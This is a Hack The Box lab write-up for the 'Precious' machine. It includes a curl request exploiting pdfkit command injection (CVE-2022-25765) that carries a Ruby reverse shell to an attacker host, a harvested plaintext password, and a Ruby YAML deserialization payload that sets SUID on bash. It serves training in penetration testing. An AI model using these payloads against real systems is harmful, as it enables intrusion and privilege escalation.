







# HTB - Precious | Linux | Easy

## Synopsis

Precious is an Easy Difficulty Linux machine focusing on Ruby. It hosts a custom Ruby web application using **pdfkit v0.8.6**, vulnerable to **CVE-2022-25765** (Command Injection), leading to an initial shell. Lateral movement is achieved via plaintext credentials found in a Gem config file. Privilege escalation exploits **Ruby YAML deserialization** via an insecure `YAML.load` call in a sudo-privileged script.

---

## Enumeration

### Nmap

```bash
nmap -p- --min-rate 10000 -oA nmap_allport 10.129.29.181
nmap -p 22,80 -sC -sV -oA nmap_detailed 10.129.29.181
```

**Results:**
- `22/tcp` — OpenSSH 8.4p1 Debian
- `80/tcp` — nginx 1.18.0 (redirect to `precious.htb`)



Add to `/etc/hosts`:
```
10.129.29.181 precious.htb
```

### HTTP Enumeration

Navigating to port 80 reveals a **"Convert Web Page to PDF"** application.


Analyzing response headers via browser DevTools reveals:



- `X-Powered-By: Phusion Passenger(R) 6.0.15`
- `X-Runtime: Ruby`

The backend is a **Ruby** application served via **Phusion Passenger** (embedded in Nginx).

### PDF Metadata Analysis

Start a local HTTP server and submit the URL to get a generated PDF:

```bash
python3 -m http.server 80
# Submit: http://<tun0_IP>/
```

Analyze the PDF with exiftool:

```bash
exiftool <generated_file>.pdf
```

```
Creator: Generated by pdfkit v0.8.6
```



**pdfkit v0.8.6** is vulnerable to **CVE-2022-25765** — command injection via unsanitized URL parameters.

---

## Foothold — CVE-2022-25765 (PDFkit Command Injection)

The vulnerability allows injecting shell commands via backtick substitution in the URL parameter.

Start a Netcat listener:
```bash
nc -nlvp 4444
```

Send the malicious request:
```bash
curl 'http://precious.htb/' -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'url=http%3A%2F%2F<ATTACKER_IP>%3A4444%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22<ATTACKER_IP>%22%2C4444%29%29%27%60'
```

Shell received as user `ruby`.





Upgrade to TTY:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---

## Lateral Movement — Plaintext Credentials in Gem Config

Enumerate ruby's home directory:
```bash
ls -la ~
# .bundle directory found
cat ~/.bundle/config
```

```
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```



Pivot to henry via SSH:
```bash
ssh henry@precious.htb
# Password: Q3c1AqGHtoI0aXAYFH
```



Grab user flag:
```bash
cat ~/user.txt
```

---

## Privilege Escalation — Ruby YAML Deserialization

Check sudo privileges:
```bash
sudo -l
```


```
(root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Inspect the script:
```bash
cat /opt/update_dependencies.rb
```

Key vulnerability — `YAML.load` with a **relative path**:
```ruby
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
```

Two issues:
1. `YAML.load` deserializes arbitrary Ruby objects (unsafe)
2. `dependencies.yml` is looked up in the **current directory** — user-controlled

Create a malicious `dependencies.yml` in henry's home:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

Run the script from henry's home directory:
```bash
cd ~
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

Exploit the SUID bash:
```bash
/bin/bash -p
whoami
# root
```

Grab root flag:
```bash
cat /root/root.txt
```


---

## Vulnerability Summary

| Step | Vulnerability | CVE |
|------|--------------|-----|
| Foothold | PDFkit Command Injection | CVE-2022-25765 |
| Lateral Movement | Plaintext credentials in Gem config | — |
| PrivEsc | Ruby YAML unsafe deserialization | — |

---

## Tools Used

- `nmap` — port scanning
- `exiftool` — PDF metadata analysis
- `curl` — exploit delivery
- `nc` — reverse shell listener
- `python3 -m http.server` — local HTTP server
